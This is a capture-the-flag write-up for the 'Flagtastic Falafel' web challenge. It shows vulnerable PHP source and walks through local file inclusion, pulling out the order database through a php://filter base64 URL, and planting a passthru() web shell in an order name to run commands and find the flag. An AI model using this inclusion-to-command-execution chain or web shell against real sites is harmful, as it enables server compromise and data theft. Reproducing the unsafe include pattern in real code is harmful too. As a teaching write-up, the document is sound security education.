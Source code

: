# flagtastic_falafel

## Challenge Description

> Flagtastic Falafel just got a brand new online ordering website! The programmer told me they followed all of the security advice they heard from everyone, so it is super secure. However, with a name like "Flagtastic Falafel" there's bound to be a flag sitting around somewhere, and I know how much y'all like flags...
>
> NOTE: the flag is pretty easy to find when you get rce, but don't try to brute force the path - you'll never find it!

## Solution

### Initial Website Analysis

Obviously visiting the provided website is always a good place to start:

<div align="center">
<img src="img/order-screen.png" alt="Flagtastic Falafel order screen">
</div>

That's a very nice picture :) Now to see what happens when we place an order:

<div align="center">
<img src="img/order-confirmation.png" alt="Flagtastic Falafel order screen">
</div>

While the confirmation page isn't really remarkable, the URL looks interesting: `http://flagtastic_falafel.ctf-league.osusec.org/foods.php?food=fashionable.php&name=Me&credit_card_number=12345678`. Now is probably a good time to check out the website source we were provided, namely foods.php (I've included the entire file here for convenience):

```php
<?php
    # Someone told me that I should NEVER EVER STORE UNENCRYPTED CREDIT CARD NUMBERS IN A DATABASE!!!
    # Flagtastic Falafel takes security very seriously, so credit card numbers are stored in files instead.

    # Generate a unique file name for this customer/credit card number
    $filename = bin2hex(random_bytes(20));
    $order_file = fopen("/orders/" . $filename, "w") or die("Unable to open order file for writing :-(");

    # Write order information to the file
    fwrite($order_file, "Customer Name: " . $_GET["name"] . "\n");
    fwrite($order_file, "Credit Card Number: " . $_GET["credit_card_number"] . "\n");
    fwrite($order_file, "Order: " . $_GET["food"] . "\n\n");

    # Close the file
    fclose($order_file);

    # Record other order information in database (don't worry, credit card data is not stored in database)
    $db = new SQLite3("/orders/orders.db");
    # No sql injection allowed!!
    $stmt = $db->prepare("INSERT INTO orders (customer_name_hash, order_filename) VALUES (?, ?)");
    # Only store hash of name for security!! Storing sensitive information in the database is a no no.
    $name_hash = hash("md5", $_GET["name"]);
    $stmt->bindValue(1, $name_hash);
    $stmt->bindValue(2, $filename);
    $stmt->execute();
?>

<html>
    <head>
        <title>Flagtastic Falafel</title>
    </head>
    <body>
        <?php
            # No XSS allowed!! (we'll have an XSS challenge at some point, but this isn't it)
            echo("<p>Thanks for your order, " . htmlspecialchars($_GET["name"]) . "!</p>");
            echo("<p>We received your credit card number as " . htmlspecialchars($_GET["credit_card_number"]) . ". Please ensure that it is incorrect, and submit your order again if it isn't. Thank you!</p>");
            echo("<p>Here's what you ordered:</p>");
            include($_GET["food"]);
        ?>
    </body>
</html>
```

Some relevant information from that:

- Orders are inserted into a database located at `/orders/orders.db` as a name hash/random filename pair
- The database query is prepared in advance, so we indeed can't perform SQL injection (unless SQLite itself has vulnerabilities :))
- The ordered falafel (in the above case `fashionable.php`) is directly included into the confirmation page

That last point is interesting since, in combination with each order submission creating a file in the `/orders` directory, it allows us to execute arbitrary PHP. Because the filenames are randomly generated though, we're gonna need to find a way to get them, and what better way than the database itself?

### Obtaining the database

Even though PHP's `include()` function is meant to evaluate PHP, I figured I'd try including the database directly to see if that'd work:

<div align="center">
<img src="img/db-include.png" alt="Result of direct inclusion of order database">
</div>

We are able to access the database this way, but unfortunately this format can't be loaded into SQLite, even after removing the surrounding HTML. I assume the inclusion process can mangle binary files, but I'm not entirely sure. Luckily we can get around this though by encoding the database in Base64 before it's sent, which we can then decode to the original database. [This article](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601) mentions that PHP filter streams can accomplish just that. In this case, we can include the database as Base64 using the URL `http://flagtastic_falafel.ctf-league.osusec.org/foods.php?food=php://filter/convert.base64-encode/resource=/orders/orders.db`, which yields the following:

<div align="center">
<img src="img/base64-database.png" alt="Base64-encoded SQLite database inclusion">
</div>

We can then select and paste the Base64 string representing the database and paste it into a file. I wrote a [short script](./dump_db.py) to decode the database back into — well, a database :) Just to verify, I selected the first 10 rows from it:

```shell
$ sqlite3 -header orders.db "SELECT * FROM orders LIMIT 10"
id|customer_name_hash|order_filename|order_date
1|d41d8cd98f00b204e9800998ecf8427e|76513e47f827ff8cec427194bc9b37d5f7489f0a|2022-11-07 11:30:38
2|d41d8cd98f00b204e9800998ecf8427e|55226b22ace13c937a35f28b415eca9d0ca13a9f|2022-11-07 11:30:47
3|c5836008c1649301e29351a55db8f65c|9ce29ab114fe88a58ee59fac3da8f563148ec355|2022-11-07 17:51:43
4|d41d8cd98f00b204e9800998ecf8427e|0cf8688f09ba63e9a0d59dad31c7ebd5bca634f7|2022-11-07 18:08:55
5|d41d8cd98f00b204e9800998ecf8427e|b653cfce195fd849a97b37165521365fd2216669|2022-11-07 18:09:16
6|d41d8cd98f00b204e9800998ecf8427e|8a206a8ced9f57056215477c15e1c55b464c7c94|2022-11-07 18:09:34
7|d41d8cd98f00b204e9800998ecf8427e|29a802a2c3a1c1b337f31096d8b90a379d60eaf2|2022-11-07 18:09:59
8|d41d8cd98f00b204e9800998ecf8427e|15c0033413643ba89e7c4599cf17135553e71905|2022-11-07 18:10:29
9|d41d8cd98f00b204e9800998ecf8427e|ae37e9c77d0b5ba9339bd860df1de75d8146e19d|2022-11-07 18:10:48
10|d41d8cd98f00b204e9800998ecf8427e|64ca9769493b31bb3e9f6b91823b3e778d741a27|2022-11-07 18:10:58
```

Great, now we can recover the entire order database :)

We know from `foods.php` that the `customer_name_hash` for a given row is the MD5 hash of the name they provided, so we should now be able to find the filename of the order from earlier:

```shell
$ echo -n "Me" | md5sum
318b2739ddc2c16c97b33c9b04b79f3e  -

$ sqlite3 orders.db "SELECT order_filename FROM orders WHERE customer_name_hash = '318b2739ddc2c16c97b33c9b04b79f3e'"
34a846e79b1a45146e2167d863acc7b7e38a2ae5
```

Neat! Including it into the order confirmation page via the URL `http://flagtastic_falafel.ctf-league.osusec.org/foods.php?food=/orders/34a846e79b1a45146e2167d863acc7b7e38a2ae5` confirms that this is indeed the correct file:

<div align="center">
<img src="img/me-included.png" alt="Order result file included">
</div>

Now onto exploiting being able to include arbitrary files :)

### Why yes, of course my name is `<?php`

As I mentioned above, the `include()` function evaluates the PHP in the provided file and includes the result. We can test this by setting the name (or credit card number) on the order page to some valid PHP. This is the result of providing the name `<?php echo "pwned"; ?>` (where the filename is obtained via the process mentioned in the previous section):

<div align="center">
<img src="img/pwned.png" alt="Arbitrary PHP execution in foods.php">
</div>

Neat! Luckily for us, the developers behind PHP decided to include [the `passthru()` function](https://www.php.net/manual/en/function.passthru.php), which executes a command on the running server and includes the resulting text. Not sure who okayed that idea but hey, it works for our purposes :) The name payload I used to get arbitrary command execution was the following:

```php
<?php passthru($_GET["cmd"]); ?>
```

The `$_GET["cmd"]` gets the value of the `cmd` query parameter (like the `food` and `name` parameters on the order confirmation page). This allows us to execute any command without having to submit a new order, essentially giving us full shell access on the server. Let's try executing `ls` using this (again after finding the proper filename as shown above). In my case, the URL to do so was `http://flagtastic_falafel.ctf-league.osusec.org/foods.php?food=/orders/f6885a6956227115e20988e33964d9249fd89b47&cmd=ls`, which yielded the following result:

<div align="center">
<img src="img/file-list.png" alt="ls command result">
</div>

And there are all the types of falafel! Onto actually finding the flag :)

### Capturing the flag

We were given that the name of the file containing the flag was `flag.txt`, but obviously not where to look for it. The `find` command turns out to be our friend here, since it recursively looks through directories until it finds a file matching the conditions you specify. Running `find -name flag.txt` via our injected PHP does yield a result, but its contents are `no flag for you, cry harder` so that's probably not the flag :( It's probably located in a different folder, so instead we can run `find / -name flag.txt` to recursively look in every directory on the Flagtastic Falafel server. You can also make `find` execute commands on each file that matches the provided condition via `-exec`, so I used `cat` to print the contents of all of the files. The final command ended up being `find / -name flag.txt -type f -exec cat $1 {} \;`. The `-type f` filter only matches files (i.e. not directories/folders) and the `-exec cat $1 {} \;` chunk just prints the contents of all of the matching files.

Because of how URLs work, though, we can't just provide that as a command; we have to encode some of the characters using [percent encoding](https://en.wikipedia.org/wiki/Percent-encoding), which in this case gives us `find%20%2F%20-name%20flag.txt%20-type%20f%20-exec%20cat%20%241%20%7B%7D%20%5C%3B`. We can then execute this command using our injected PHP via the url `http://flagtastic_falafel.ctf-league.osusec.org/foods.php?food=/orders/f6885a6956227115e20988e33964d9249fd89b47&cmd=find%20%2F%20-name%20flag.txt%20-type%20f%20-exec%20cat%20%241%20%7B%7D%20%5C%3B`:

<div align="center">
<img src="img/found-flags.png" alt="Found flag.txt file contents">
</div>

And there we have it! Our flag is `osu{fIn4llY_f0uND_fL49_F0R_FL4974s7Ic_f4l4f3l}` (not the [YouTube link](https://www.youtube.com/watch?v=dQw4w9WgXcQ), although I'd highly recommend giving that video a watch ;)). This is why you should always sanitize user input so they can't do anything naughty ;)
